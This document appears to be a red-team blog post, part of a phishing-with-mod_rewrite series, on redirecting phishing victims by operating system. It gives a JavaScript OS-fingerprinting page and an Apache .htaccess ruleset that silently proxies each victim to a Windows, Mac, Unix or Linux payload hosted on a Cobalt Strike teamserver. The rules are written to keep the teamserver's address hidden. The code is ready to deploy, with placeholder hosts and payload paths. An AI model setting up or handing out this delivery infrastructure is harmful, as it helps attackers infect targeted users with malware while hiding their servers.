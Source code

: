 ```yaml
---
layout: post
title: Operating System Based Redirection with Apache mod_rewrite
summary: Redirect your phishing victims to different payloads or sites based on their operating system.
image: /assets/apache/os-detection-demo.gif
tags: 
- mod_rewrite
- phishing
commentIssueId: 9
---
```


At times you may find yourself testing an environment comprised of a fair mix of operating systems. Maybe the marketing department is half Windows and half Mac OS X. In these cases, it may not be feasible to determine users' operating systems via a preliminary phish.

OS detection is nothing new. The goal of this method is to allow us to perform detection and proxying in one place while looking as legitimate as possible to the phish victim. No URL changing, no excessive page reloads and refreshes. This detection method is similar to my [previous post]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/) about redirecting mobile users; however, leveraging JavaScript provides a more reliable method of operating system detection.


![OS Detection Demo](/assets/apache/os-detection-demo.gif)

{:#os-detector-page}

# OS Detector Page

The HTML code below (based on OS detection code from [javascripter.net](http://www.javascripter.net/faq/operatin.htm)) uses JavaScript to detect the user's OS and appends a URL parameter (*os_id*) to the end of the request. If the user's OS doesn't match Windows, Mac OS X, Unix, or Linux, *unknown* will be assigned to the *os_id*.

The HTML only needs to be modified if you are using the parameter *os_id* in one of the payloads or if you opt to add more granular detection, such as by OS version. The HTML file should be hosted on a Cobalt Strike teamserver or other pivoting server, such as a redirector.

```html
<html><head></head>
<body>

<script>
var url_base='http://'+window.location.host;
var OSName="unknown";
var query_string=document.location.search;
var request_path=window.location.pathname.substr(1);
if (navigator.appVersion.indexOf("Win")!=-1) OSName="windows";
if (navigator.appVersion.indexOf("Mac")!=-1) OSName="mac";
if (navigator.appVersion.indexOf("X11")!=-1) OSName="unix";
if (navigator.appVersion.indexOf("Linux")!=-1) OSName="linux";

var os_string='&os_id='+OSName;
if (query_string == '') os_string='?os_id='+OSName;
if (query_string.indexOf("os_id=")!=-1) os_string='';

window.location.replace(url_base+'/'+request_path+query_string+os_string);

</script>

</body></html>
```

{:#mod_rewrite-rules}

# mod_rewrite Rules

The following ruleset should be placed in a *.htaccess* file on your Apache redirector. Replace the *TEAMSERVER-IP* and OS payload placeholders with the IP and paths that correspond to your infrastructure for the campaign. The *OS-DETECTOR* placeholder should be replaced by the path of the above HTML file on your teamserver.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=mac</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MAC-OS-X-PAYLOAD</span> <span style="color: tomato">[P]</span><br>

RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=windows</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/WINDOWS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unix</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNIX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=linux</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/LINUX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unknown</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNKNOWN-OS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/OS-DETECTOR.HTML</span> <span style="color: tomato">[P]</span><br>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'mac':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'MAC-OS-X-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'windows':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'WINDOWS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unix':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNIX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'linux':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'LINUX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unknown':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNKNOWN-OS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If none of the above conditions are met, <span style="color: gold">change the entire request</span> <span style="color: orange">to serve 'OS-DETECTOR.HTML' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
</div>


In short, the ruleset checks requests for each of the OS parameters and proxies requests to the the designated payload path. The user's address bar will still read the path to they entered or clicked to get to the OS detector. As it's written, the ruleset redirects any request received to the *.htaccess* file's directory and any subdirectory to the OS detector page. If you would like to selectively redirect to that file, you can add a RewriteCond line above and catch-all RewriteRule line on the last line. See my previous mod_rewrite post about [invalid uri redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite) of for a more specific example.

{:#expanding-capabilities}

# Expanding Capabilities

Since the detection is simply using JavaScript to fingerprint the end-user's host and using mod_rewrite to determine the correct page to serve, one could easily expand the script to serve payloads based upon any number of criteria. For instance, the script above doesn't detect specific versions of operating systems. If that level of granularity is required, consider using the user agent to perform detection. 

An example would be to change the conditional statement in the HTML page from:

```javascript
navigator.appVersion.indexOf("Win")!=-1
```

to

```javascript
navigator.userAgent.indexOf("Windows NT 6.1")!=-1
```

The second conditional line checks for Windows 7 rather than just Windows. User agents can be spoofed or removed, so be it's a good idea to build in a backup detection method if you aren't sure the user agents will be in tact.

{:#summary}

# Summary

Operating system detection enables phishing campaigns to serve payloads based upon maximum impact per host type, rather than broadest applicability. This allows you to tailor not only the infection vector, such as Java vs. HTA, but also the post-exploit toolset, such as Cobalt Strike vs. Metasploit, based upon the likelihood of success. This capability can be extended even further to serve up specific operating system or application versions. 


# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* [Invalid URI Redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/)
* Operating System Based Redirection with Apache mod_rewrite
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)